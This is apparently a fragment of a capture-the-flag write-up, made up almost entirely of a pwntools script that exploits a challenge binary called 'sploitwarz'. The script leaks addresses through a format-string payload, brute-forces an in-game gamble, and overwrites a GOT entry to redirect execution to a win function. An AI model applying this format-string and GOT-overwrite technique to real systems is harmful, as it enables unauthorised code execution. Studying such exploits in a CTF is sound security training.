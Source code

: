 ```
#p = process('./sploitwarz')
p = remote('plsdonthaq.me', 4004)

payload = b'%149$x|'
p.readuntil('handle?')
p.sendlineafter('> ', payload)

# brute force the gamble
nline=''
while(True):
	p.clean()
	p.sendlineafter('What will you do? ', 'g')
	p.sendline('0.0000001')
	p.sendlineafter('> ', '5')
	f = p.readline().decode()
	if ('OPTIONS' in f):
		continue
	nline = p.readline().decode()
	if ('Well done' in nline):
		# next line contains leakage
		break
	p.readuntil('any key')
	p.sendlineafter('continue...', '\n')

r = nline.split('|')
got = int('0x' + r[0].split(' ')[-1], 16)
win = got - 10852
got = got + 0x10

p.clean()
p.sendline('\n')

p.clean()
# dummy input
p.sendline('c')

p.clean()
p.sendline('c')
p.sendline(writeAddress(5, got, win))

# exploit
nline=''
while(True):
	p.sendlineafter('What will you do? ', 'g')
	p.sendlineafter(': ', '0.0000001')
	p.sendlineafter('> ', '5')
	f = p.readline()
	if (not p.can_read()):
		break
	nline = p.readline()
	if (b'Well done' in nline):
		break
	p.clean()
	p.sendline('\n')

p.interactive()
```

## Conclusion

---
